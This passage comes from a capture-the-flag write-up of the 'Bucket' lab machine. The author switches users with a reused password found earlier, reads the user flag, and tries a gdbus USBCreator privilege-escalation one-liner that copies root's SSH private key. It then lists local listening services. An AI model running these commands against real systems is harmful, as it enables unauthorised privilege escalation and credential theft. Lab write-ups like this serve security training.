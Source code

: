 But let us try accessing Roy's account using one of the passwords we found earlier!

```
www-data@bucket:/var/www/html$ su roy
su roy
Password: Management@#1@#

su: Authentication failure
www-data@bucket:/var/www/html$ su roy
su roy
Password: Welcome123!

su: Authentication failure
www-data@bucket:/var/www/html$ su roy
su roy
Password: n2vM-<_K_Q:.Aa2

roy@bucket:/var/www/html$
```

Indeed, one of these passwords worked!  We not have Roy's account, and user access!
```
roy@bucket:/var/www/html$ cat /home/roy/user.txt
cat /home/roy/user.txt
48c6************************f5e1
```

We naïvely try the same hack we did in Passage to try to get escalate our access to root level:
```
roy@bucket:/var/www/html$ cd /tmp && gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true && ssh -i pwn root@bucket;
<ssh/id_rsa /tmp/pwn true && ssh -i pwn root@bucket;
Error: GDBus.Error:org.freedesktop.DBus.Error.ServiceUnknown: The name com.ubuntu.USBCreator was not provided by any .service files
```

No luck.  After being naïve, I recall that this hack worked because we had an `ssh` port open.  We do have this port open here, though this doesn't seem to work.  No worries.  

We note that Roy doesn't actually have an `.ssh` directory in his `home`.  So perhaps `ssh` is not the vulnerability here.



Looking for some solutions online, I find that one way to escelate privileges is to potentially see if the machine has any servers running:
```bash
roy@bucket:~/project$ netstat -tulpn | grep "LISTEN"
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:42513         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
